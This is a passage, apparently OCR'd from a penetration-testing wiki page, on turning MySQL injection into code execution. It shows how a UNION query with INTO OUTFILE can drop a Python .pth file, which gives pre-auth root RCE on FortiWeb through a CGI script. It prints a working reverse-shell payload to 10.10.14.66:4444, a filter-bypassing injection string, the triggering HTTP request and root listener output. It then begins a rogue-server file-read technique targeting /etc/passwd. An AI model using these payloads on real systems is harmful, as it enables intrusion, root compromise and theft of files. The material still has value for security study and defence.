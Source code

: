 ```
Abusing the classic `INTO OUTFILE` primitive it is possible to obtain *arbitrary code execution* on targets that later run **Python** scripts.

1. Use `INTO OUTFILE` to drop a custom **`.pth`** file inside any directory loaded automatically by `site.py` (e.g. `.../lib/python3.10/site-packages/`).
2. The `.pth` file can contain a *single line* starting with `import ` followed by arbitrary Python code which will be executed every time the interpreter starts.
3. When the interpreter is implicitly executed by a CGI script (for example `/cgi-bin/ml-draw.py` with shebang `#!/bin/python`) the payload is executed with the same privileges as the web-server process (FortiWeb ran it as **root** → full pre-auth RCE).

Example `.pth` payload (single line, no spaces can be included in the final SQL payload, so hex/`UNHEX()` or string concatenation may be required):

```python
import os,sys,subprocess,base64;subprocess.call("bash -c 'bash -i >& /dev/tcp/10.10.14.66/4444 0>&1'",shell=True)
```
```
Example of crafting the file through an **UNION** query (space characters replaced with `/**/` to bypass an `sscanf("%128s")` space filter and keep the total length ≤128 bytes):

```sql
'/**/UNION/**/SELECT/**/token/**/FROM/**/fabric_user.user_table/**/INTO/**/OUTFILE/**/'../../lib/python3.10/site-packages/x.pth'
```
```
Important limitations & bypasses:

* `INTO OUTFILE` **cannot overwrite** existing files; choose a new filename.
* The file path is resolved **relative to MySQL’s CWD**, so prefixing with `../../` helps to shorten the path and bypass absolute-path restrictions.
* If the attacker input is extracted with `%128s` (or similar) any space will truncate the payload; use MySQL comment sequences `/**/` or `/*!*/` to replace spaces.
* The MySQL user running the query needs the `FILE` privilege, but in many appliances (e.g. FortiWeb) the service runs as **root**, giving write access almost everywhere.

After dropping the `.pth`, simply request any CGI handled by the python interpreter to get code execution:

```
GET /cgi-bin/ml-draw.py HTTP/1.1
Host: <target>
```
```
The Python process will import the malicious `.pth` automatically and execute the shell payload.

```
# Attacker
$ nc -lvnp 4444
id
uid=0(root) gid=0(root) groups=0(root)
```
```
---

## MySQL arbitrary read file by client

Actually, when you try to **load data local into a table** the **content of a file** the MySQL or MariaDB server asks the **client to read it** and send the content. **Then, if you can tamper a mysql client to connect to your own MySQL server, you can read arbitrary files.**\
Please notice that this is the behaviour using:

```bash
load data local infile "/etc/passwd" into table test FIELDS TERMINATED BY '\n';
```